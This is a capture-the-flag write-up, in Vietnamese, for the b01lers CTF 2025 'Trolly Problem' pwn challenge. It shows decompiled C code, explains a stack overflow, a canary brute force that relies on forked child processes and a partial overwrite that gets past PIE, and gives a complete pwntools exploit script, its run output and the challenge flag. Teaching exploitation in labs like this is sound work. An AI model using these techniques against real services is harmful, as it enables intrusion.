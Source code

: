 ```yaml
---
title: '[Writeup] - b01lers CTF (2025) - PWN'
tag: ['PWN', 'Writeup']
top_img: /img/2025/b01lers/banner.png
cover: /img/2025/b01lers/banner.png
category: ['Writeup', 'PWN']
date: 2025-04-22 00:14:00
author:
    - d4kw1n
---
```


## Trolly Problem

### Challenge Description

![alt text](/img/2025/b01lers/image.png)

### Analysis & Source code

1. Checksec

```bash
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

2. Source code

Bài này không có source code sẵn nên mình sẽ dùng IDA để đọc mã nguồn. Challenge này sẽ có 3 functions chính cần chú ý là **main()**, **trolley_problem()**, **win()**

- **main()**

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int stat_loc; // [rsp+4h] [rbp-Ch] BYREF
  __pid_t pid; // [rsp+8h] [rbp-8h]
  int v6; // [rsp+Ch] [rbp-4h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  while ( problems > 0 )
  {
    --problems;
    pid = fork();
    if ( !pid )
      return trolley_problem();
    waitpid(pid, &stat_loc, 0);
    v6 = BYTE1(stat_loc);
    if ( BYTE1(stat_loc) == 1 || v6 == 5 )
    {
      problems += v6;
      puts("Uh oh, here comes another trolley...");
    }
  }
  return 0;
}
```

- **trolley_problem()**

```c
__int64 trolley_problem()
{
  int i; // [rsp+4h] [rbp-2Ch]
  char *s; // [rsp+8h] [rbp-28h]
  char s1[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts(::s);
  puts("Oh no! A runaway trolley is heading down the track");
  puts("and is about to cause five more trolley problems.");
  puts("You can pull a lever to divert the trolley onto another track,");
  puts("where it will only cause one trolley problem. What do you do?");
  s = (char *)malloc(0x64uLL);
  fgets(s, 48, stdin);
  for ( i = 0; s[i] != 10; ++i )
    s1[i] = s[i];
  puts(::s);
  if ( !strncmp(s1, "pull the lever", 0xEuLL) )
  {
    puts("You pulled the lever. But what did it accomplish?");
    return 1LL;
  }
  else
  {
    puts("You did nothing. Isn't that the wrong choice though?");
    return 5LL;
  }
}
```

- **win()**

```c
void __noreturn win()
{
  FILE *stream; // [rsp+8h] [rbp-78h]
  char s[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v2; // [rsp+78h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts("flag.txt not found");
    exit(1);
  }
  fgets(s, 100, stream);
  puts(s);
  fclose(stream);
  exit(0);
}
```

Function **win()** được dùng để in ra Flag cho chúng ta. Tuy nhiên nó lại không được call đến => Nên mình suy nghĩ đây là một bài **ret2win**.

Ở đây sẽ có 3 vấn đề cần giải quyết là `BOF ở đâu?`, `Canary` và `PIE`

- Về câu hỏi `BOF ở đâu?`
  - Trong hàm **trolley_problem()**, biến **s1** được khai báo 24 phần tử. Tuy nhiên, chương trình lại cho phép nhập đến tận 48 ký tự. => BOF sẽ xảy ra ở đây.
- Về phần `Canary`
  - Trong function **main()**, hàm **trolley_problem()** được gọi trong tiến trình con bởi việc dùng function **fork()** -> Canary mỗi tiến trình con là như nhau => Brute force canary.
  - Đồng thời, phải đảm bảo vòng lặp while không bị thoát. Để làm được điều này thì mình cần phải tăng giá trị của biến problems lên một giá trị thích hợp. Đoạn code bên dưới sẽ làm việc này
  
```python
for _ in range(256):  
    p.sendlineafter(b"What do you do?\n", b"do nothing")
    p.recvuntil(b"Uh oh, here comes another trolley...")
```

- Về phần `PIE`
  - Do PIE bật nên chúng ta không thể nhảy thẳng đến địa chỉ của function `win()` do không biết địa chỉ chính xác => Chỉ cần ghi đè 2 byte cuối.

Sau khi giải quyết được hết vấn đề thì bắt tay vào phần exploit

### Exploit

```python
from pwn import *

p = process('./chall') 
# p = remote('trolley-problem.harkonnen.b01lersc.tf', 8443, ssl=True)
exe = ELF('./chall') 
for _ in range(256):  
    p.sendlineafter(b"What do you do?\n", b"do nothing")
    p.recvuntil(b"Uh oh, here comes another trolley...")



canary = b""
for i in range(8): 
     for b in range(0xff + 1): 
          if b == 0x0a:
               continue
          p.recvuntil(b"What do you do?\n")
          
          payload = b"a" * 24 + canary + bytes([b])

          p.sendline(payload)
          p.recvline()
          p.recvline()
          response = p.recvline()
          if b"detected ***" not in response: 
               canary += bytes([b])
               log.info(f"Canary byte {i+1}: {hex(b)}")
               break

canary = u64(canary.ljust(8, b"\x00")) 
log.info(f"Canary: {hex(canary)}")

for i in range(256):
     payload = b"A" * 24 + p64(canary) + b"B" * 8 + b"\xD6" + bytes([i]) 
     p.sendlineafter(b"What do you do?\n", payload)
     res = p.recvuntil(b"}", timeout=1)
     if b"bctf" in res:
          log.info(f"Flag: {res}")
          break
     
p.interactive()
```

### Get Flag

```bash
┌──(kali㉿ANONYMOUS)-[/mnt/d/Security/PeginWN/Challenge/b01lersc/trolley-problem/trolley-problem/src]
└─$ python3 sol.py 
[+] Opening connection to trolley-problem.harkonnen.b01lersc.tf on port 8443: Done
[*] '/mnt/d/Security/PeginWN/Challenge/b01lersc/trolley-problem/trolley-problem/src/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
[*] Canary byte 1: 0x0
[*] Canary byte 2: 0x72
[*] Canary byte 3: 0x3f
[*] Canary byte 4: 0xc5
[*] Canary byte 5: 0xdd
[*] Canary byte 6: 0x5d
[*] Canary byte 7: 0x33
[*] Canary byte 8: 0xaa
[*] Canary: 0xaa335dddc53f7200
[*] Flag: b"\nYou did nothing. Isn't that the wrong choice though?\nbctf{why_c4nt_th3_tr0113y_dr1v3r_ju5t_pu11_th3_3m3rg3ncy_br4k3_5mh}"
[*] Switching to interactive mode
```

🚩 Flag: bctf{why_c4nt_th3_tr0113y_dr1v3r_ju5t_pu11_th3_3m3rg3ncy_br4k3_5mh}

